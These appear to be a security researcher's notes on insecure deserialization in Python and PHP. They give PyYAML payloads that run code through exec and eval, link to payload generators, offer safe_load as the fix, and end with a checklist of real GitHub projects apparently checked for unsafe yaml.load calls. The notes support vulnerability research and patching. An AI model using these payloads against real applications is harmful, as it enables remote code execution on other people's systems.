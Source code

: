 
# Python
https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter

### How to find Vulnerable package?

1. Common insecure deserialization code patterns
```python
yaml.load()

yaml.load("x",Loader=FullLoader)

pickle.load()
```
3. How to find a package?
	- Github
	- http://grep.app
	- Codeql:- https://lgtm.com/

### Is it Exploitable? / Writing an exploit
- Use python virtual environment
	- python3 -m venv \<envname\>

- Example package 
	- https://github.com/microsoft/nni

### Creating payloads
- Common payloads used:


#using python exec

```python
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"```
```
```python
```!!python/object/new:tuple
	- !!python/object/new:map
		- !!python/name:eval
		- ["RCE_HERE"]```

```


- More on payload https://github.com/yaml/pyyaml/issues/420
	- https://github.com/j0lt-github/python-deserialization-attack-payload-generator
	- https://github.com/artsploit/yaml-payload


### Patch 

- Use safe_load() instead of load().
- Use safeloader instead of fullloader.

# Projects
- [ ] https://github.com/deepmipt/dp-agent/blob/master/deeppavlov_agent/setup_agent.py
- [x] https://github.com/hongfz16/DS-Net/blob/main/utils/config.py
- [x] https://github.com/google/automl/blob/master/efficientdet/hparams_config.py
- [x] https://github.com/openvenues/libpostal/search?q=yaml.load%28
- [x] https://github.com/SsnL/dataset-distillation/blob/master/base_options.py
- [x] https://github.com/google/WebFundamentals
- [x] https://github.com/NVIDIA/DeepLearningExamples/blob/master/PyTorch/LanguageModeling/Transformer-XL/pytorch/eval.py
- [x] https://github.com/mlrun/mlrun/blob/development/mlrun/run.py
- [x] https://github.com/ubuntu/microk8s/blob/master/scripts/cluster/common/utils.py
- [x] https://github.com/lcdb/lcdb-wf/blob/master/lib/common.py
- [x] https://github.com/tianweiy/CenterPoint-KITTI/blob/main/pcdet/config.py
- [x] https://github.com/lunixbochs/glshim/blob/unstable/spec/gen.py
- [x] https://github.com/mitre/caldera/blob/master/tests/conftest.py
- [x] https://github.com/xinntao/BasicSR/blob/master/basicsr/utils/options.py
- [ ] 94 page from last (``yaml.load(`` )





# PHP
https://nitesculucian.github.io/2018/10/05/php-object-injection-cheat-sheet/

### Magic methods
\_\_construct()
\_\_set()
\_\_toString()
\_\_destruct()
\_\_isset()
\_\_invoke()
\_\_call()
\_\_unset()
\_\_set\_state()
\_\_callStatic()
\_\_sleep()
\_\_clone()
\_\_get()
\_\_wakeup()
\_\_debugInfo()